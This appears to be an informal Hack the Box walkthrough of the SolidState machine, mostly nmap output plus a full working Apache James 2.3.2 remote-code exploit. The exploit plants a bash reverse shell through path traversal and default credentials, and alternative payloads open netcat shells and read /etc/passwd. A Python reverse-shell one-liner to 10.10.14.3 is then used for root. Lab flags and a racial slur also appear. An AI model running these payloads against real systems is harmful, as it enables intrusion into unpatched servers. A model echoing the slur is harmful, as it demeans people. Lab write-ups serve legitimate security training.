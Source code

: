 ```yaml
---
title: SolidState - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/SolidState.png
---
```

#linux #manual 
### Scan
```
└─# nmap -sC -sV --open -p- 10.10.10.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-11 11:54 EDT
Nmap scan report for 10.10.10.51
Host is up (0.14s latency).
Not shown: 64818 closed tcp ports (reset), 712 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.3 [10.10.14.3])
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.94SVN%I=7%D=9/11%Time=66E1BD82%P=aarch64-unknown-linux
SF:-gnu%r(GenericLines,7C,"JAMES Remote Administration Tool 2\
SF:.3\.2
Please enter your login and password
Login id
SF::
Password:
Login failed for 
Login id:
");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 309.20 seconds

```
### Enumeration
petential RCE from edb


tryna enum from port 4555![Image](/assets/Screenshot 2024-09-11 at 12.56.11 PM.png)
![Image](/assets/Screenshot 2024-09-11 at 12.55.44 PM.png)

set up python script and listener (dont forget to wrap like i did :P)

```
import socket
import sys
import time
 
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'
 
if len(sys.argv) != 4:
    sys.stderr.write("[-]Usage: python3 %s <remote ip> <local ip> <local listener port>
" % sys.argv[0])
    sys.stderr.write("[-]Example: python3 %s 172.16.1.66 172.16.1.139 443
" % sys.argv[0])
    sys.stderr.write("[-]Note: The default payload is a basic bash reverse shell - check script for details and other options.
")
    sys.exit(1)
 
remote_ip = sys.argv[1]
local_ip = sys.argv[2]
port = sys.argv[3]
 
# Select payload prior to running script - default is a reverse shell executed upon any user logging in (i.e. via SSH)
payload = '/bin/bash -i >& /dev/tcp/' + local_ip + '/' + port + ' 0>&1' # basic bash reverse shell exploit executes after user login
#payload = 'nc -e /bin/sh ' + local_ip + ' ' + port # basic netcat reverse shell
#payload = 'echo $USER && cat /etc/passwd && ping -c 4 ' + local_ip # test remote command execution capabilities and connectivity
#payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # proof of concept exploit on root user login only
 
print ("[+]Payload Selected (see script for more options): ", payload)
if '/bin/bash' in payload:
    print ("[+]Example netcat listener syntax to use after successful execution: nc -lvnp", port)
 
 
def recv(s):
        s.recv(1024)
        time.sleep(0.2)
 
try:
    print ("[+]Connecting to James Remote Administration Tool...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,4555)) # Assumes James Remote Administration Tool is running on Port 4555, change if necessary.
    s.recv(1024)
    s.send((user + "
").encode('utf-8'))
    s.recv(1024)
    s.send((pwd + "
").encode('utf-8'))
    s.recv(1024)
    print ("[+]Creating user...")
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit
".encode('utf-8'))
    s.recv(1024)
    s.send("quit
".encode('utf-8'))
    s.close()
 
    print ("[+]Connecting to James SMTP server...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((remote_ip,25)) # Assumes default SMTP port, change if necessary.
    s.send("ehlo team@team.pl
".encode('utf-8'))
    recv(s)
    print ("[+]Sending payload...")
    s.send("mail from: <'@team.pl>
".encode('utf-8'))
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>
".encode('utf-8')) if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>
".encode('utf-8'))
    recv(s)
    s.send("data
".encode('utf-8'))
    recv(s)
    s.send("From: team@team.pl
".encode('utf-8'))
    s.send("
".encode('utf-8'))
    s.send("'
".encode('utf-8'))
    s.send((payload + "
").encode('utf-8'))
    s.send("
.
".encode('utf-8'))
    recv(s)
    s.send("quit
".encode('utf-8'))
    recv(s)
    s.close()
    print ("[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).")
    if '/bin/bash' in payload:
        print ("[+]Don't forget to start a listener on port", port, "before logging in!")
except:
    print ("Connection failed.")
```

netcat into box and change passwords of all users to `password`
![Image](/assets/Screenshot 2024-09-11 at 1.38.31 PM.png)

Now, we need to telnet into the mail server via pop3 on port 110. ![Image](/assets/Screenshot 2024-09-11 at 1.39.52 PM.png) 

`USER mindy` then type '`PASS password`'

we can poke around these user's emails using `LIST` and `RETR`
ssh creds ![Image](/assets/Screenshot 2024-09-11 at 1.41.52 PM.png)

Once we log in, our script from earlier triggers our listener!
![Image](/assets/Screenshot 2024-09-11 at 1.43.23 PM.png)

![Image](/assets/Screenshot 2024-09-11 at 1.44.01 PM.png)
`USER:c2a02b6aac5efe90cc11717f43994eaa`

serve linpeas 

serve linenum
both didnt work



talk about opt and other common to check like /srv/ and /dev/

![Image](/assets/Screenshot 2024-09-11 at 2.07.06 PM.png)

we see py script with read and write all perms

pspy

python reverse shell one liner 
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.3',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);" > tmp.py
```

wait a few mins with wrapped listener

![Image](/assets/Screenshot 2024-09-11 at 2.15.11 PM.png)

boom niga

`ROOT:08bae8a910f1847604ff24468d51688c`





### Initial Access

### Privilege Escalation
